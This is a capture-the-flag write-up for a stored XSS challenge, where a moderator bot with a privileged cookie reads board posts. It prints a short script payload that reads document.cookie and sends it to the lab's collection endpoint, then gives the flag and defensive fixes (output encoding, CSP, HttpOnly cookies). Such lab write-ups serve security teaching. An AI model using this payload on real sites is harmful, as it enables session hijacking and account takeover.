

# Script Injection

**Category:** Stored XSS / Cookie Theft
**Challenge:** *A moderator bot with a privileged cookie reads every post. Craft a payload that, rendered in the bot's browser, sends its cookie to `/ch3/collect?data=<cookie>`.*

## Recon

Two facts from the scenario chain together:

- The board **renders HTML without sanitization** → a posted `<script>` executes.
- A **bot reads every post** in its browser, holding its privileged cookie.

That's **stored XSS**: the payload persists on the server and runs automatically in any viewer's browser — including the bot's. The bot shares the collection endpoint's origin, so a request its browser makes to `/ch3/collect` carries its own cookie.

> Hitting `/ch3/collect?data=...` in my own browser does reveal the flag (naive endpoint), but it proves nothing — I can only ever send a cookie I already hold. The objective is to exfiltrate the *bot's* cookie, which requires code running in *its* browser.

## Exploitation

Post this message to the board:

```html
<script>
  new Image().src = '/ch3/collect?data=' + encodeURIComponent(document.cookie);
</script>
```

- `<script>` runs because the board renders raw HTML
- `document.cookie` reads the cookie of whoever renders it — the bot's, privileged
- `encodeURIComponent(...)` keeps `;` and `=` intact in transit
- `new Image().src = ...` fires the outbound GET without navigating the bot away

The bot renders the post, its browser ships its cookie to `/ch3/collect`, and the flag appears:



## Flag

```
FLAG{x55_c00k13_st0l3n_9c9fb22b}
```

## Takeaway

Unsanitized HTML + a privileged bot reading posts = stored XSS cookie theft. Stored XSS needs no victim interaction, fires against every viewer, and persists until the post is purged — worse than reflected, which needs a per-victim click. Fixes: output-encode user content (render as text), set a restrictive CSP (`script-src 'self'`), and mark the session cookie `HttpOnly` so `document.cookie` can't read it.
